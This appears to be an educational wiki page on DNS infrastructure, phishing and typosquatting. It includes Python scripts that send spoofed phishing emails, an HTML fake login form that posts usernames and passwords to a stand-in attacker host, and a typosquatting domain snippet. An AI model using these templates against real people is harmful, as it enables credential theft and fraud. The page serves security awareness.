 ```yaml
---

layout: col-sidebar
title: DNS Attacks_Phishing_TypoSquatting
author:
contributors: 
permalink: 
tags: 

---
```


{% include writers.html %}

{% include writers.html %}

## DNS Infrastructure
## What Is DNS
The acronym DNS stands for “Domain Name System”.
To better relate to this you can think of it as an “address book” where you look up a name that is tied to a unique address that you use for communicating with an individual, however this “address book” is for the internet and when you enter a domain name into a browser, it will be translated to the tied unique IP address which it will use to communicate to a machine and serve up content that is hosted on it The process of translating a domain to an IP address is known as a DNS lookup. DNS lookups are performed by dedicated servers called DNS resolvers. Your Wi-Fi router is typically preconfigured to send DNS queries to the resolver owned by your ISP. However, you can choose to configure your router, operating system, or browser to use a different resolver.
## Components of DNS Infrastructure
1.	DNS Servers: These are the backbone of DNS. DNS servers come in various types, such as recursive resolvers and authoritative servers. Recursive resolvers act like your personal investigators, fetching IP addresses on your behalf. Authoritative servers, on the other hand, have the answers. They hold the official records for a specific domain, and they’re the ones you turn to when you need the precise IP address for a particular website.
2.	DNS Resolvers: Think of DNS resolvers as your web browsers’ trusty assistants. When you type in a website address, the resolver is the first to spring into action. It contacts DNS servers to find the IP address for the site you want to visit. This crucial step ensures you reach your desired destination on the web.
## The role of DNS records and Zone files:
1.	DNS Records: If DNS is the backbone, DNS records are the words in the backbone’s language. These records store essential information, like IP addresses, mail server data, and aliases. Common record types include A (Address), CNAME (Canonical Name), and MX (Mail Exchange). These records tell DNS servers where to send your requests and emails and how to find websites.
2.	Zone Files: Imagine zone files as the organizers of the DNS library. Each domain has its zone file, which contains records that point to where the data for that domain is stored. These files are managed by domain administrators and provide authoritative DNS servers with the information they need to resolve queries for that domain. Zone files are essential for the smooth operation of DNS.

## Challenges

### IP Infringement
Intellectual property (IP) infringement is the unauthorized use of a protected intellectual property right, such as a trademark, patent, copyright, industrial design, plant breeder’s right, or trade secret. Although intellectual-property infringement can be unintentional, it still unacceptable under the eyes of the law. The most common examples of intellectual property disputes include using another person’s words, images, or logo without the property owner’s permission
### Phishing
Phishing is a common type of cyber-attack that targets individuals through email, text messages, phone calls, and other forms of communication. A phishing attack aims to trick the recipient into falling for the attacker’s desired action, such as revealing financial information, system login credentials, or other sensitive information. As a popular form of social engineering, phishing involves psychological manipulation and deception whereby threat actors masquerade as reputable entities to mislead users into performing specific actions. These actions often involve clicking links to fake websites, downloading and installing malicious files, and divulging private information, like bank account numbers or credit card information.

![Phishing](https://github.com/PaV1nShAj1/PaV1nShAj1/blob/3b9c75abb93b91ad9320a5d3c9e6121eebb7a9e6/Screenshot%202025-01-20%20011021.jpg)
 



### How does phishing works
Phishing works by sending messages that look like they are from a legitimate company or website. Phishing messages will usually contain a link that takes the user to a fake website that looks like the real thing. The user is then asked to enter personal information, such as their credit card number. This information is then used to steal the person’s identity or to make fraudulent charges on their credit card
                             
![working](https://github.com/PaV1nShAj1/PaV1nShAj1/blob/3b9c75abb93b91ad9320a5d3c9e6121eebb7a9e6/phising.jpg)
### Types of Phishing attacks
## Spear phishing
Spear phishing involves targeting a specific individual in an organization to try to steal their login credentials. The attacker often first gathers information about the person before starting the attack, such as their name, position, and contact details.
# Example of Spear Phishing Email Code
```python
import smtplib
from email.mime.text import MIMEText

def send_spear_phishing_email(target_name, target_email):
    sender = "fake@legitcompany.com"
    subject = f"Important Update for {target_name}"
    body = f"Dear {target_name},\n\nPlease click the link to update your account information: http://fake-website.com"

    msg = MIMEText(body)
    msg['Subject'] = subject
    msg['From'] = sender
    msg['To'] = target_email

    with smtplib.SMTP('smtp.example.com') as server:
        server.login("username", "password")
        server.sendmail(sender, target_email, msg.as_string()) ```

### Email Phishing

Email phishing is a common technique used by attackers to trick individuals into providing sensitive information by pretending to be a trustworthy entity.



# Example of Phishing Email Code
```python
import smtplib
from email.mime.text import MIMEText

def send_phishing_email():
    sender = "fake@legitcompany.com"
    recipient = "victim@example.com"
    subject = "Important Update"
    body = "Please click the link to update your account information: http://fake-website.com"

    msg = MIMEText(body)
    msg['Subject'] = subject
    msg['From'] = sender
    msg['To'] = recipient

    with smtplib.SMTP('smtp.example.com') as server:
        server.login("username", "password")
        server.sendmail(sender, recipient, msg.as_string())

### Website Phishing

Website phishing is a method used by attackers to create fake websites that mimic legitimate ones to trick users into divulging sensitive information, such as login credentials or financial details.

# Example of a Fake Login Page
```html
<!-- Example of a fake login page -->
<html>
<head>
    <title>Fake Login Page</title>
</head>
<body>
    <h1>Login</h1>
    <form action="http://fake-website.com/submit" method="post">
        <label for="username">Username:</label>
        <input type="text" id="username" name="username"><br>
        <label for="password">Password:</label>
        <input type="password" id="password" name="password"><br>
        <input type="submit" value="Login">
    </form>
</body>
</html>


## Typosquatting
Typosquatting is when someone registers a domain name that is an intentionally misspelled version of another popular website. While many misspelled URLs won’t work or will redirect you, some of these fake websites that look real might be a source of malware, and visiting them could even lead to identity theft. Threat actors create and register domains similar to popular websites but with common typographical errors to exploit unsuspecting users who mistype URLs. The technique is similar to lookalike domains. But unlike lookalike domains in which attackers register domains that look confusingly similar to those of trusted brands typosquatting tries to cash in on users’ clumsiness with their keyboard.

 

## Example
# Example of character substitution
```python
domain = "legit-website.com"
phishing_domain = domain.replace("i", "l")  # Replacing 'i' with 'l'
print(phishing_domain)  # Outputs: "leglt-website.com" ```


